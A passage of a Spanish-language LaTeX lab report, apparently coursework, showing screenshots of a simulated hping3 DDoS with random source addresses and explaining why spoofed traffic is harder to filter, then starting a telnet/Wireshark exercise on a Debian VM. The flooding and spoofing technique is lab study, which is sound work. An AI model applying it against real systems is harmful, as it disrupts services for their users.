    
\includegraphics[width=1\textwidth]{../../Ejercicio 6/hping.png}
    \caption{Simulación de ataque DDoS con hping3}
    \label{fig:hping3-ddos}
\end{figure}

Usando el comando modificado para tener fuentes aleatorias, se obtiene lo siguiente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 6/hping_rand.png}
    \caption{Simulación de ataque DDoS con hping3 y fuentes aleatorias}
    \label{fig:hping3-ddos-random}
\end{figure}

Como vemos comparando ambas imágenes, el tráfico generado por el ataque DDoS con fuentes aleatorias 
es mucho más difícil de identificar y filtrar, ya que no se puede distinguir fácilmente entre el tráfico 
legítimo y el tráfico malicioso. Esto hace que la defensa contra este tipo de ataques sea más complicada, 
ya que los sistemas de detección de intrusiones y los firewalls pueden tener dificultades para identificar 
patrones de tráfico anómalos, a comparación con un ataque DDoS tradicional donde el tráfico proviene de una 
fuente o un conjunto limitado de fuentes y que son más fáciles de identificar y bloquear.

\section*{Ejercicio 7: ¡Hey! No mires más de lo necesario}

\begin{tcolorbox}[title=Info. VM 2]
OS: Debian GNU/Linux 13 (trixie)\\
Kernel version: 6.12.86+deb13-amd64\\
Núcleos: 2 x Intel Core i7-9750H\\
RAM: 2GB\\
IP: 192.168.1.231\\
\end{tcolorbox}

Se hacen las configuraciones mencionadas en la descripción de la tarea para la configuración de la VM Debian.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{../../Ejercicio 7/telnet_config.png}
    \caption{Configuración de telnet en la VM Debian}
    \label{fig:configuracion-debian}
\end{figure}

Luego, ponemos el fitro indicado en Wireshark y ejecutamos \texttt{telnet 192.168.1.231}. Estos son los resultados:

\begin{figure}[H]
    \centering
